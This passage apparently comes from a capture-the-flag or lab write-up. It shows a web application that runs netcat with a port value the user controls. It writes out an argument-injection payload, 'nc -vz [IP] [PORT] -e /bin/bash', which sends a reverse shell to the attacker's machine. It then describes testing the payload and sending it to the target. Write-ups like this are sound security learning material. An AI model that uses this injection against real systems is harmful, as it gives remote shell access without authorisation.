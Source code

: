 As done previously, testing if it can connect to our attacker machine results in success and a connection is made:

![](Down-Net.png)

Knowing this and that it is using Netcat with the following syntax:

```bash
/usr/bin/nc -vz $ip $port
```

And that we control the `$port` variable value, it may be possible to send ourselves a reverse shell by appending the command to send `/bin/bash` over to us using the `-e` parameter:

```bash
/usr/bin/nc -vz [IP] [PORT] -e /bin/bash
```

Testing this locally first, we can successfully send ourselves a reverse shell over and can confirm the syntax works as expected:

![](Down-TestingNetcat.png)

With confirmation it works, try sending the payload to the application:

![](Down-RevShell.png)
